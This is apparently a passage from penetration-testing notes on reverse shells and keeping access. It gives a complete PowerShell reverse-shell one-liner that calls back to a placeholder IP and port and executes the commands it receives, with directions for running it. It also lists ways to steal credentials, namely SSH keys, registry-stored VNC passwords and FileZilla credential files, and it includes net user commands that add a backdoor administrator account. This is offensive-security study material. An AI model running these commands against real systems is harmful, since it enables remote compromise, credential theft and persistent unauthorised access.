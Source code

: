 ## Powershell
When targeting a modern Windows Server, it is very common to require a Powershell reverse shell. The following one-liner can be really useful
```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
In order to use this, we need to replace both `<ip>` and `<port>`, we can then copy it into a cmd.exe shell (or another method of executing commands on a Windows server, such as [[Shells#WebShells|webshells]]) and execute it, resulting in a reverse shell

# Gaining ground
One thing that all shells have in common is that they tend to be unstable and non-interactive. Even Unix style shells which are easier to stabilise are not ideal. So our objective should always be on looking for opportunities to gain access to a user account.

On linux, SSH keys stored at `/home/<user>/.ssh` are often an ideal way to do this. Some exploits will also allow us to add our own account, like [[Dirty C0w]] or a writable /etc/shadow or /etc/passwd would quickly gives us SSH access to the machine, assuming it is open.

On windows, the options are more limited. It is sometimes possible to find passwords for running services in the registry. VNC servers, for example frequently leave passwords in the registry stored in plaintext. Some versions of the FileZilla FTP server also leave credentials in an XML file  at `C:\Program Files\FileZilla Server\FileZilla Server.xml` or `C:\xampp\FileZilla Server\FileZilla Server.xml`. These can be MD5 hashes or in plaintext, depending on the version.

Ideally on Windows we would obtain a shell running as the SYSTEM user, or an admin account. In such a situation it is possible to add our own account to the machine, then log in over [[RDP]], [[Telnet]], [[winexe]], [[psexec]], [[WinRM]], or any other method.
The syntax for this is as follows
```
net user <username> <password> /add
net localgroup administrators <username> /add
```
